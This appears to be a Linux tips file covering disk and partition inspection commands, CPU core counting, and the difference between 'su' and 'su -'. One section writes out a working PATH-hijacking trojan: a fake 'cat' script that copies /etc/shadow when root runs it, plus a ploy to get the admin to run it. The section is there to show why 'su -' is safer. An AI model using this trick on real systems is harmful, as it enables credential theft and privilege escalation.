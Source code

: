 ### Interrogate the system for drive partition and storage info
#### fdisk
This will show the partitions but also a bunch of the loops involved in device mounting and the output will be hard to read.

#### sfdisk
Similar output and can also display the size of paritions in mb

#### cfdisk (curses based)
Output will be similar to fdisk and sfdisk above but in a nice table format listing the: device(partition name)/ start sector/ end sector/ total sectors on the partition/ total partition size and filesystem type.
This outpt is clear, concise and immediately useful.

#### parted
Command line utility for partition manipulation. Beyond the scope of this tips document.

#### df
Disk Free. Outputs filesystem information, size of the partition, storage used/ storage available/ % used/ partition mounted on etc

#### pydf
Almost identical to df but more visually appealing. With colors.

#### lsblk
This command lists out all the storage blocks, which includes disk partitions and optical drives including the mount point and size of the drive. This command also shows the drives and partitions in a tree format much like the tree command,

#### blkid
Prints the block device (partitions and storage media) attributes like uuid and file system type. Does not report the space on the partitions.

#### hwinfo 
The hwinfo command is a general purpose hardware information tool and can be used to print out the disk and partition list. The output however does not print details about each partition like some of the other commands above.

# su - vs su
su - invokes a login shell after switching the user. A login shell resets most environment variables, providing a clean base.

su just switches the user, providing a normal shell with an environment nearly the same as with the old user.

# Beware of rogue developers
Something like this could happen:

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.

$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

$ su
Password: ...
cat /home/you/dummy_file
Some important dummy stuff in that file.
exit
Wow! Thanks, super admin!

$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.


You can use one of the following command to find the number of physical CPU cores including all cores on Linux:
- lscpu command.
- cat /proc/cpuinfo.
- top or htop command.
- nproc command.
- hwinfo command.
- dmidecode -t processor command.
- getconf _NPROCESSORS_ONLN command.

